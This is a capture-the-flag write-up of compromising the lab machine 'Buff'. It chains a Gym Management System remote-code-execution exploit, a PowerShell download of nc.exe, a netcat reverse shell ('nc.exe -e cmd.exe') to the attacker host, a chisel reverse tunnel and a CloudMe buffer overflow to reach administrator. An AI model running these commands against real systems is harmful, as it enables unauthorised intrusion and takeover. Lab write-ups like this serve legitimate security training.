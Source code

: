 ## Buff

### Nmap Scanning

__Top 1000 ports scan__

```bash
$ nmap -sC -sV -Pn -oN nmap/buff  10.10.10.198
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-11 15:52 EDT
Nmap scan report for 10.10.10.198
Host is up (0.097s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.57 seconds
```

## Enumeration

- Webserver running on port 8080
- Homepage

![homepage](images/homepage.PNG)

- Found a RCE exploit on searchsploit

![gym_management](images/gym_management.PNG)

```bash
$ searchsploit Gym Management          
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
Gym Management System 1.0 - 'id' SQL Injection              | php/webapps/48936.txt
Gym Management System 1.0 - Authentication Bypass           | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site Scripting     | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated Remote Code Exe | php/webapps/48506.py
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

## Exploitation

```bash
─$ python 48506.py http://10.10.10.198:8080/                                           255 ⨯
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> dir
�PNG
�
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

11/09/2021  21:11    <DIR>          .
11/09/2021  21:11    <DIR>          ..
11/09/2021  21:11                53 kamehameha.php
               1 File(s)             53 bytes
               2 Dir(s)   7,121,997,824 bytes free

C:\xampp\htdocs\gym\upload> 
```

- upgrading the shell using netcat

```bash
C:\xampp\htdocs\gym\upload> powershell -c IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.12/nc.exe','nc.exe')
�PNG
�

C:\xampp\htdocs\gym\upload> dir
�PNG
�
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

11/09/2021  21:27    <DIR>          .
11/09/2021  21:27    <DIR>          ..
11/09/2021  21:11                53 kamehameha.php
11/09/2021  21:27            59,392 nc.exe
               2 File(s)         59,445 bytes
               2 Dir(s)   7,440,818,176 bytes free

C:\xampp\htdocs\gym\upload> .\nc.exe -e cmd.exe 10.10.14.12 9001
```

__Result__

```bash
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.198] 49912
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

11/09/2021  21:27    <DIR>          .
11/09/2021  21:27    <DIR>          ..
11/09/2021  21:11                53 kamehameha.php
11/09/2021  21:27            59,392 nc.exe
               2 File(s)         59,445 bytes
               2 Dir(s)   7,441,637,376 bytes free

```

## Privilege escalation

- found a binary `cloudme.exe`

```bash
C:\Users\shaun\Downloads>dir 
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\Users\shaun\Downloads

14/07/2020  13:27    <DIR>          .
14/07/2020  13:27    <DIR>          ..
16/06/2020  16:26        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   7,774,461,952 bytes free
```
- searchsploit resulted in `BOF` exploit (Firstone)

```
$ searchsploit cloudme                                                                  1 ⨯
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)                      | windows/remote/48389.py
CloudMe 1.11.2 - Buffer Overflow (SEH_DEP_ASLR)             | windows/local/48499.txt
CloudMe 1.11.2 - Buffer Overflow ROP (DEP_ASLR)             | windows/local/48840.py
Cloudme 1.9 - Buffer Overflow (DEP) (Metasploit)            | windows_x86-64/remote/45197.rb
CloudMe Sync 1.10.9 - Buffer Overflow (SEH)(DEP Bypass)     | windows_x86-64/local/45159.py
CloudMe Sync 1.10.9 - Stack-Based Buffer Overflow (Metasplo | windows/remote/44175.rb
CloudMe Sync 1.11.0 - Local Buffer Overflow                 | windows/local/44470.py
CloudMe Sync 1.11.2 - Buffer Overflow + Egghunt             | windows/remote/46218.py
CloudMe Sync 1.11.2 Buffer Overflow - WoW64 (DEP Bypass)    | windows_x86-64/remote/46250.py
CloudMe Sync < 1.11.0 - Buffer Overflow                     | windows/remote/44027.py
CloudMe Sync < 1.11.0 - Buffer Overflow (SEH) (DEP Bypass)  | windows_x86-64/remote/44784.py
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

- We need to forward the running service on port `8888` from victim machine to our kali.

- For this we use `chisel` [Github](https://github.com/jpillora/chisel/releases).

<hr>
Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

<hr>


- on victim machine

```bash
C:\xampp\htdocs\gym\upload>.\chisel.exe client 10.10.14.12:9002  R:8888:localhost:8888
.\chisel.exe client 10.10.14.12:9002  R:8888:localhost:8888
2021/09/11 22:21:54 client: Connecting to ws://10.10.14.12:9002
2021/09/11 22:21:56 client: Connected (Latency 141.1528ms)

```

- on kali, listen for the  connection from `chisel`

```bash
$ ./chisel server --reverse --port 9002
2021/09/11 17:15:40 server: Reverse tunnelling enabled
2021/09/11 17:15:40 server: Fingerprint yRzWStcIB8E8d/UkCTub+Os1Qnhcm3ePt0JuZOWmTus=
2021/09/11 17:15:40 server: Listening on http://0.0.0.0:9002
2021/09/11 17:18:32 server: session#5: tun: proxy#R:8888=>localhost:8888: Listening
```

- Now change the payload in python program and run the exploit

__Result__

```bash
$ nc -lvnp  9003
listening on [any] 9003 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.198] 49941
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator
```


